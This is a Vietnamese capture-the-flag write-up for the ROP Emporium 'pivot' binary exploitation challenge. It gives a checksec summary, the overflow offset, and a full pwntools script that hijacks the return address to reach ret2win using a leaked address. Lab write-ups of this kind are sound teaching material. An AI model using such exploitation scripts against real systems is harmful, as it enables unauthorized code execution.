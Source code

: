 # ROP_Emporium - pivot

# 1. Tìm lỗi

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
pivot: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=0e9fb878206e1858b042597fd36c51aa07497121, not stripped
```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
RUNPATH:  b'.'
```
Ta thấy chỉ có NX được bật, tức là ta không thể thực thi code nằm trên stack được. Tiếp theo, ta mở file bằng IDA PRO 64bit. Ở đây chỉ có 2 hàm thú vị:

Hàm main()

![main.png](images/main.png)

Và hàm pwnme()

![pwnme.png](images/pwnme.png)

# 2. Ý tưởng

Bài này leak cho ta địa chỉ của chuỗi đầu vào -> leak được libc từ đó kiếm được libc_base

# 3. Khai thác

Tại hàm pwnme cho chúng ta nhập vào 2 lần nhưng do leak được libc rồi nên chúng ta có thể nhập bỏ qua lần 1 và dùng kỹ thuật ret2win ở lần nhập thứ 2.

Ta cũng sẽ tìm offset tới rip bằng gdb như sau:

![offset.png](images/offset.png)

Vậy offset là 0x28 bytes.

Do bài này leak được địa chỉ nên ta sẽ dùng:

```
p.recvuntil(b"The Old Gods kindly bestow upon you a place to pivot: 0x")

leak = int(p.recv(12),16)

print("[+]LEAK:", hex(leak))
```

để leak địa chỉ và in ra màn hình.

- Dùng gdb để chạy chương trình và dùng `info functions` để xem các hàm chương trình có khi chạy ta phát hiện ra có hàm ret2win():

![win.png](images/win.png)

Ta tìm offset giữa địa chỉ leak được và địa chỉ hàm ret2win():

![offset2.png](images/offset2.png)

Như vậy địa chỉ hàm `ret2win() = leak + 0x1e2b71`

Full code:
```
from pwn import*

context.log_level       = "DEBUG"
context.arch            = "amd64"

elf = context.binary = ELF('./pivot', checksec=False)

p = process("./pivot")

#gdb.attach(p, gdbscript='''
#b*pwnme+113
#c
#''')
adget = elf.sym['usefulGadgets']

p.recvuntil(b"The Old Gods kindly bestow upon you a place to pivot: 0x")
leak = int(p.recv(12),16)
print("[+]LEAK:", hex(leak))
win = leak + 0x1e2b71

payload = flat(
    cyclic(0x28),
    win
      )
p.sendlineafter(b"> ",payload)
p.sendlineafter(b"> ",payload)
p.interactive()

```

# 4. Lấy flag

![flag.png](images/flag.png)


